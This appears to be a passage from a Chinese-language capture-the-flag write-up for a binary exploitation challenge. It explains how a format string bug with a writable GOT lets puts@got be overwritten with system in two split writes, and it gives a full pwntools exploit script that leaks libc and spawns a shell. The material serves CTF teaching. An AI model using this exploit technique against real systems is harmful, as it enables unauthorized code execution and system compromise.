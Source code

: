 同时我们发现程序没有后门，但 GOT 表可写并且没开 PIE，在打败 boss 后可以使用 2 次 bss 段上的格式化字符串漏洞。

虽然在打败 boss 前我们只知道 elf 基址，但由于 GOT 表可写，所以我们可以先向栈上写 puts@got。在打败 boss 后我们使用第一次机会来 leak libc，然后在第二次修改 puts@got 为 system 函数。后面的`puts(buf)`就会变成`system(buf)`，如果我们再控制 buf 的前 8 字节为`/bin/sh\x00`就可以直接 getshell

**实现**

这道题最大的考点其实是栈排布和在一次修改中改两次。因为在 libc 中两个函数之间最多差 3 字节，但是如果想只修改一次的话，只能改 4 字节，这时候打印出的字符数就可能会有上亿次，内存爆了都打不通（。这时我们可以用一种更加优雅的方法：将这 3 字节分割成两次：第一次先写 1 字节，第二次再写 2 字节。这样需要的时间就会大大减少。

我们向栈上写的 payload 就变成了`b'/bin/sh\x00' + p64(elf.got['puts']) + p64(elf.got['puts'] + 1)`



**exp**

```python
#! /usr/bin/env python3.8
from pwn import *
from ctools import *

context(os="linux", arch="amd64")
TMUX_TERMINAL()
# context.log_level = "debug"

elf_path = './pwn'
libc_path = './libc.so.6'

init_elf_with_libc(elf_path, libc_path)
DEBUG = lambda script = '': gdb.attach(io, gdbscript=script)

conn_context(host='127.0.0.1', port=9999, level=REMOTE, elf=elf_path)

elf = ELF(elf_path)
libc = ELF(libc_path, checksec=False)
io = conn()
    
def exp():
    io.sendlineafter(b'continue', b'')
    io.sendlineafter(b'Choice', b'2')
    io.sendlineafter(b'hp', b'-100')
    io.sendlineafter(b'power', b'-100')
    
    io.sendlineafter(b'Choice', str(0xcafebabe).encode())
    pad = b'/bin/sh\x00' + p64(elf.got['puts']) + p64(elf.got['puts'] + 1)
    io.sendlineafter(b'here', pad)
    
    io.sendlineafter(b'Choice', b'3')
    pad = b'%3$p'
    io.sendlineafter(b'them', pad)
    io.recvuntil(b'0x')
    libc.address = int(io.recv(12), 16) - libc.symbols['write'] - 23
    success(hex(libc.address))
    
    system = libc.symbols['system']
    pad = f'%{system & 0xff}c%17$hhn'
    pad += f'%{((system >> 8) & 0xffff) - (system & 0xff)}c%18$hn'
    # DEBUG()
    io.sendline(pad.encode())
    
    pass

try:
    exp()
    io.interactive()
finally:
    rm_core()
```